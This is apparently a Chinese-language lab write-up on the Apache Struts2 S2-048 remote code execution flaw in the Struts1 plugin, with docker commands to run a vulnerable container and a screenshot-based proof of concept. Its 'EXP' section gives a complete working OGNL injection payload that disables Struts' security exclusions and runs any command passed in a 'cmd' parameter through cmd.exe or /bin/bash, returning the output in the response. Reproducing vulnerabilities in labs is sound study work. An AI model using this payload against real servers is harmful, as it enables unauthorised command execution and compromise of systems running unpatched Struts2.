 ```yaml
---
layout: post
title: "Struts2-struts1-plugin 插件远程代码执行漏洞(S2-048)"
date: 2017-07-07 23:57:35 +0800
image: '/assets/img/'
description: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生。'
introduction: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生。'
---
```


### 漏洞信息

 * [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-048
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-048
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

> 例如目标地址为：http://127.0.0.1:32768/

1.访问本例目标地址

 `http://127.0.0.1:32768/integration/editGangster.action`

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-1.png)

2.如下图在Gangster Name字段输入 Payload
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-2.png)

3.提交后可看到表达式被执行
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-3.png)

#### EXP

核心部分如下：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

需要再指定一个 cmd 参数，传入要执行的命令：

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/exp.png)

### 参考链接

* [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)
* [【漏洞分析】Struts2高危漏洞S2-048分析](http://bobao.360.cn/learning/detail/4078.html)
